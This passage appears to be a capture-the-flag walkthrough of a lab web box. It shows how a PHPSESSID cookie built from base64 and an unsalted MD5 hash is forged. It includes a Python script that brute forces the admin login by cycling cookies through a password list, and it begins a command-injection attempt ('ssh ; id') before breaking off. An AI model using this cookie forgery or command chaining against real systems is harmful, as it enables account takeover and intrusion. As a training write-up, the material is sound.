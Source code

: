 Two files are .from_admin.txt and .password_list.txt are of special interest . The former file contains the following

```
To all employees, this is "admin" speaking,
i came up with a safe list of passwords that you all can use on the site, these passwords don't appear on any wordlist i tested so far, so i encourage you to use them, even me i'm using one of those.

NOTE To rick : good job on limiting login attempts, it works like a charm, this will prevent any future brute forcing.
```
The latter is a list of random passwords the admin seems to have created earlier.

## Exploitation

At first I tried to circumvent the rate limiting, which took a lot of time and led nowhere in the end. The key is the PHPSESSID cookie, it looked a bit suspicious so I tried to decode it for the user I created on the page.
```
d2h4OmE4ZjVmMTY3ZjQ0ZjQ5NjRlNmM5OThkZWU4MjcxMTBj
```

Decoded 
```
whx:a8f5f167f44f4964e6c998dee827110c
```
That hash looked a lot like an md5 hash, so I compared it to the password I used
```bash
echo -n "asdasd" | md5sum
a8f5f167f44f4964e6c998dee827110c  -
```
After that I created a Python script to hash & encode the cookie before iterating the list and in this way I got the correct password.
```python
import hashlib
import base64
import requests

URL = "http://10.10.148.158/administration.php"

with open ("passwords_list.txt", 'r') as _f:
    data = [x.strip() for x in _f.readlines()]

r = requests.get(URL)
page_content = r.text
print(r)

for line in data:
    _hash = hashlib.md5(line.encode('utf-8')).hexdigest().encode('utf-8')
    concat_str = b'admin:' + _hash
    _b64hash = base64.b64encode(concat_str).decode()
    print(_b64hash)
    headers = { "Cookie": f"PHPSESSID={_b64hash}"}
    r = requests.get(URL, headers=headers)
    if len(r.text) > len(page_content):
        print("password: " + line)
        print("cookie: " + _b64hash)
        break
```
After login there is a Service Status Checker on the administration page. 
You can see the status of services/daemons installed on the box of the challenge through systemctl status <command>.
My first impression was to just chain commands through ; like ssh ; id, but that ended in
